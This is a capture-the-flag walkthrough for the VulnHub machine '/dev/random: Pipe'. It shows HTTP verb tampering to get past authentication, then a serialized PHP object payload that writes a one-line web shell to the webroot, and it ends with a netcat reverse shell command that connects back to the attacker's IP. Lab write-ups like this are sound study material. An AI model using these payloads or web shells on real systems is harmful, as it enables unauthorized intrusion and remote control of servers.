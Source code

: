 # Pipe

| Name | /dev/random: Pipe |
| --- | --- |
| Date release | 2 Oct 2015 |
| Author | Sagi- |
| Link | https://www.vulnhub.com/entry/devrandom-pipe,124/ |

## Machine Info
Machine IP: 192.168.26.130

## Start of enumeration

GET requests to http://192.168.26.130/index.php are redirected to `index.php` and asks for credentials.  
Changing the request to POST or even something that does not exist like "GETS", we can bypass and get the `index.php` page.

Looking at the source-code we find an interesting JS file:

![](Untitled.png)

Accessing http://192.168.26.130/scriptz/ we can find more files.

![](Untitled1.png)

The file `log.php.BAK` file seems to be a logger:

![](Untitled2.png)

Looking back to the `index.php` source-code we can see the parameters that are submitted in the form:

![](Untitled3.png)

We now intercept the request for “Show Artist Info” in burp:

![](Untitled4.png)

![](Untitled5.png)

Decoding the `param` value:

![](Untitled6.png)

It seems that in this case a `Info` type object is being created. We know that a `Log` object will invoke the logger file and allow us to write to the webroot. We now attempt to tweak the request so that we can write some data to the webroot via the Log object.

## Writing to disk via parameter
Lets attempt to write a simple php web shell to `/scriptz/rce.php`:

```python
param=O:3:"Log":2:{s:8:"filename";s:29:"/var/www/html/scriptz/rce.php";s:4:"data";s:41:"<?php$cmd=$_GET['cmd'];system($cmd);?>";}
```

It works! Our `rce.php` file is there.

![](Untitled7.png)

## Reaching RCE
The remote command execution can be triggered via http://192.168.26.130/scriptz/rce.php?cmd=id

![](Untitled8.png)

## Reverse Shell
Getting a reverse shell is trivial:
```
http://192.168.26.130/scriptz/rce.php?cmd=nc 192.168.26.128 4444 -e /bin/bash
```

![](Untitled9.png)
